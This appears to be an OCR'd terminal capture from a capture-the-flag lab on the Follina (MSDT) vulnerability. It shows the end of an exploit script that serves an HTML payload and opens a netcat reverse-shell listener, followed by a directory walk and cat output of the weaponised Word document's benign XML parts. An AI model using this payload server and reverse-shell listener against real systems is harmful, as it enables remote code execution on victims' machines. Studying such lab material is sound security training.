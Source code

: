 ```
        def log_request(self, format, *func_args):
            if args.reverse:
                return
            else:
                super().log_request(format, *func_args)

    def serve_http():
        with ReuseTCPServer(("", args.port), Handler) as httpd:
            httpd.serve_forever()

    # Host the HTTP server on all interfaces
    print(f"[+] serving html payload on :{args.port}")
    if args.reverse:
        t = threading.Thread(target=serve_http, args=())
        t.start()
        print(f"[+] starting 'nc -lvnp {args.reverse}' ")
        os.system(f"nc -lnvp {args.reverse}")

    else:
        serve_http()


if __name__ == "__main__":

    main(parser.parse_args())
root@ip-10-10-1-188:~/Rooms/Follina-MSDT# cd doc/
root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc# ls
'[Content_Types].xml'   docProps   _rels   word
root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc# cat '[Content_Types].xml' 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Types xmlns="http://schemas.openxmlformats.org/package/2006/content-types"><Default Extension="rels" ContentType="application/vnd.openxmlformats-package.relationships+xml"/><Default Extension="xml" ContentType="application/xml"/><Override PartName="/word/document.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.document.main+xml"/><Override PartName="/word/styles.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.styles+xml"/><Override PartName="/word/settings.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.settings+xml"/><Override PartName="/word/webSettings.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.webSettings+xml"/><Override PartName="/word/fontTable.xml" ContentType="application/vnd.openxmlformats-officedocument.wordprocessingml.fontTable+xml"/><Override PartName="/word/theme/theme1.xml" ContentType="application/vnd.openxmlformats-officedocument.theme+xml"/><Override PartName="/docProps/core.xml" ContentType="application/vnd.openxmlformats-package.core-properties+xml"/><Override PartName="/docProps/app.xml" ContentType="application/vnd.openxmlformats-officedocument.extended-properties+xml"/></Types>root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc# ls
'[Content_Types].xml'   docProps   _rels   word
root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc# cd word/
root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc/word# ls
document.xml   _rels         styles.xml  webSettings.xml
fontTable.xml  settings.xml  theme
root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc/word# cat webSettings.xml 
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<w:webSettings xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships" xmlns:w="http://schemas.openxmlformats.org/wordprocessingml/2006/main" xmlns:w14="http://schemas.microsoft.com/office/word/2010/wordml" xmlns:w15="http://schemas.microsoft.com/office/word/2012/wordml" xmlns:w16cex="http://schemas.microsoft.com/office/word/2018/wordml/cex" xmlns:w16cid="http://schemas.microsoft.com/office/word/2016/wordml/cid" xmlns:w16="http://schemas.microsoft.com/office/word/2018/wordml" xmlns:w16se="http://schemas.microsoft.com/office/word/2015/wordml/symex" mc:Ignorable="w14 w15 w16se w16cid w16 w16cex"><w:optimizeForBrowser/><w:allowPNG/></w:webSettings>root@ip-10-10-1-188:~/Rooms/Follina-MSDT/doc/word# 

```
